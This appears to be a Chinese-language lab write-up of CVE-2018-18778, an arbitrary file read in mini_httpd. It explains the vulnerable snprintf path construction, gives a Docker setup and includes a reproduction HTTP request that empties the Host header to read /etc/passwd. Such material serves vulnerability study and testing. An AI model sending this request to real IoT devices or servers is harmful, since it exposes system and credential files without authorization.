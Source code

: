 # mini_httpd任意文件读取漏洞（CVE-2018-18778）

Mini_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini_httpd组件。

在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的`HOST/FILE`文件。

```c
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

见上述代码，分析如下：

- 当HOST=`example.com`、FILE=`index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。
- 当HOST为空、FILE=`etc/passwd`的时候，上述语句结果为`/etc/passwd`。

后者被作为绝对路径，于是读取到了`/etc/passwd`，造成任意文件读取漏洞。

## 环境搭建

执行如下命令启动mini_httpd 1.29：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Web页面。

## 漏洞复现

发送请求是将Host置空，PATH的值是文件绝对路径：

```
GET /etc/passwd HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

成功读取文件：

![](1.png)